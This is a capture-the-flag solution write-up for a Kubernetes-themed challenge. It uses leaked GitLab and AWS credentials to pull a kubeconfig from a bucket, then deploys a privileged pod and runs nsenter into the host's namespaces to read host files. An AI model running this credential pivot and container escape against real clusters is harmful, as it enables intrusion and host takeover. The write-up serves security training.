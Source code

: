 # Solution

## Part 1 - Pivot out of GitLab

- Access <gitlab.foobar.com>
  - Use credentials:
    - u: `root`
    - p: `Ikn0wwh@ty0ud1dl@5tKub3C0n3`
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi>
  - Review README
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi/-/commits/main>
  - Review the git commit messages
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi/-/commit/f0e9ad8ac74a428da5c2a4835a633a7bac6b1193>
  - Review for file that has been added by mistake

## Part 1 - Flag

- FLAG(IckyThumb)

## Part 2 - Get config from Bucket

- Use `aws` to copy file the `config` file from bucket

```sh
aws configure set aws_access_key_id "uUcDGYowgomWC8Z5"
aws configure set aws_secret_access_key "FLAG(IckyThumb)"
aws configure set default.region "us-east-1"
aws configure set default.output "json"
aws --endpoint-url=http://bucket.foobar.com:4566 s3 cp s3://foobar-creds/config ./config
```

- Use the config file to connect to the cluster:

```sh
kubectl --kubeconfig=config auth can-i --list
```

## Part 3 - The Homer

Connect to GKE cluster:

Modify the pod spec and include the "hostPID", "hostNetwork", "privileged" flags and set it to true:

```bash
cat car-the-privileged-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: car-the-privileged-pod
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: car-the-privileged-pod
    image: nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true
```

Apply it:

```bash
kubectl apply -f car-the-privileged-pod.yaml
pod/car-the-privileged-pod created
```

Exec into pod:

```bash
kubectl exec -it car-the-privileged-pod -- /bin/bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/#
```

Enter into all the namespaces:

```bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/# nsenter -t 1 -m -u -n -i -p bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / #
```

Find the flag:

```bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / # find .  -name "*flag*" -print
./home/car_capital/f0rd_flag.png
```

The file is `./home/car_capital/f0rd_flag.png`

Get the content:

```bash
cat ./home/car_capital/f0rd_flag.png

aHR0cHM6Ly9kcml2ZS5nb29nbGUuY29tL2ZpbGUvZC8xTi12Nms0YVNpNnFvMXgyY3BJS1IwbjVW
R0dXMFh4a1Qvdmlldw==
```

Decode it from base64:

```bash
base64 -d /home/car_capital/f0rd_flag.png

https://drive.google.com/file/d/1N-v6k4aSi6qo1x2cpIKR0n5VGGW0XxkT/view
```

Open the link, get the car picture :)
